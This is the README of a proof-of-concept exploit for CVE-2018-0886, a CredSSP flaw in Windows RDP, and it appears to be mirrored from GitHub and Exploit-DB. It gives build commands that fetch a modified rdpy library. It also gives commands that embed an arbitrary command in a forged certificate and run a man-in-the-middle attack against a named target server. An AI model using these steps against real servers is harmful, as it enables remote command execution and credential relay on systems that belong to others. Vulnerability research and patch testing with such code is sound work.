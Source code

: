 # credssp

This is a poc code for exploiting CVE-2018-0886. It should be used for educational purposes only.
It relies on a fork of the rdpy project(https://github.com/preempt/rdpy), allowing also credssp relay.


Written by Eyal Karni, Preempt
ekarni@preempt.com

# Build

## Instructions (Linux)
If you are using Ubuntu 14 , check the install file..
It was tested on Ubuntu 16.04.

```
$ git clone https://github.com/preempt/rdpy.git rdpy
$ git clone https://github.com/preempt/credssp.git
$ cd credssp/install
$ sh install.sh
$ cd ../../rdpy
$ sudo python setup.py install
```

EDB Mirror: https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/raw/main/bin-sploits/44453.zip

* It assumes a pretty clean inital state. Best to uninstall first relevant compontants such as cryptography,pyopenssl maybe (pip uninstall cryptography).
* A different version of openssl needed to be installed for this to run successfully.  The install script does that.
* Please follow the instructions in the described order.

# Running the exploit


Export a certificate suitable for Server Authentication from any domain.


To generate a suitable certificate for the command to execute :

```
$ python credssp/bin/gen_cmd.py -c ExportedCert -o exploitc.pem -k exploitk.pem CMD
```

(exploitc.pem ,exploitk.pem are the generated certificate and private key respectively)

To run the attack script:

```
$ python /usr/local/bin/rdpy-rdpcredsspmitm.py -k exploitk.pem -c exploitc.pem TargetServer
```

More details are in the usage section of the scripts(--help).